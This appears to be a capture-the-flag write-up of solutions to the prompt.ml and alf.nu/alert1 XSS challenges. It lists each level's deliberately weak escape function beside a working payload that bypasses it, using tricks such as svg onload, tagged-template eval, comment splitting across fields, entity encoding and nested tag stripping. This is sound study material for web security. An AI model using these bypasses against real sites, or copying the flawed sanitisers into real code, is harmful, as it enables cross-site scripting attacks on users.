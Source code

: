 # prompt.ml

### 0. Warmup

- Task
 
```js
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
} 
```

- Solution

```js
"><svg onload=prompt(1)//
```

- HTML source

```html
<input type="text" value=""><svg onload=prompt(1)//">
```

### 1. Tag stripping

- Task

```js
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}
```

- Solution

```html
<svg onload=prompt(1)//
```

- HTML source

```html
<article><svg onload=prompt(1)// </article>
```

### 2. Parenthesis-less

- Task

```js
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}     
```

- Solution

```html
<script>eval.call`${'prompt\x281\x29'}`</script>
```

HTML source

```html
<script>eval.call`${'prompt\x281\x29'}`</script>
```

### 7. Splits

Task

```js
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}
```

Solution

```html
"><script>/*#*/prompt/*#*/(1)/*#*/</script>
```

- HTML source

```html
<p class="comment" title=""><script>/*"></p>
<p class="comment" title="*/prompt/*"></p>
<p class="comment" title="*/(1)/*"></p>
<p class="comment" title="*/</script>"></p>
```

# alf.nu/alert1

### 1. Warmup

- Task

```js
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```

-Solution

```js
",alert(1),"
```

### 2. Adobe

- Task

```js
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```

- Solution

```js
\");alert(1)//
```

### JSON

- Task

```js
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```

- Solution

```js
</script><script>alert(1)//
```

### Markdown

- Task

```js
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```

- Solution

```js
[[x|http://onerror=javascript:alert(1)//]]
```

### Skandia

- Task

```js
function escape(s) {
  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```

- Solution

```js
</script><img src onerror=&#x61;&#x6C;&#x65;&#x72;&#x74;(1)>
```

### JSON2

- Task

```js
function escape(s) {
  s = JSON.stringify(s).replace(/<\/script/gi, '');

  return '<script>console.log(' + s + ');</script>';
}
```

- Solution

```js
</scrip</scriptt><script>alert(1)//
```
